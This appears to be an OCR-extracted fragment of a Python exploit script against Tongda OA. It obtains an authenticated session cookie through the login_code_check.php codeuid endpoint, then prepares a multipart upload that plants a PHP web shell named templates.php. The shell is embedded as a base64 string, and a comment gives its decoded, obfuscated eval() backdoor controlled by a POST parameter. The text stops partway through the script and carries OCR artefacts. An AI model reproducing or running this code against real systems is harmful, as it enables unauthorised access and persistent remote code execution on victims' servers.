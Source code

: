 ```

req3 = requests.get(url + “/ispirit/login_code_check.php?codeuid=” + codeUid, headers=checkHeader, verify=False, timeout=25)

if req3.status_code == 200 and ‘“uid”:“1”’ in req3.text:

cookie = req3.headers[“Set-Cookie”]

return cookie

except:

pass

return “123”

def exp(u):

uploadHeader = {

“User-Agent”: “Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36”,

“Content-Type”: “multipart/form-data; boundary=----fuck123”,

“Referer”: “[https://google.com](https://google.com)”,

}

shellName = “templates.php”

tongdaDir = “/”

uploadFlag = “upload jpg shell”

shellFlag = “sucess !!”

webPath = tongdaDir + shellName

printFlag = “”

```
cookie = get_cookie(u)
if cookie != "123":
    printFlag = "[Login]：" + u + "/general/index.php\t" + cookie + "\n"
header["Cookie"] = cookie

# password:a
# POST method
# base64.decode: &lt;?php $a="~+d()"^"!{+{}";$b=${$a}["a"];eval("".$b);echo "sucess !!";?&gt;
b64Shell = "PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJhIl07ZXZhbCgiIi4kYik7ZWNobyAi" + base64.b64encode(shellFlag.encode("utf-8")).decode("utf-8") + "Ijs/Pg=="
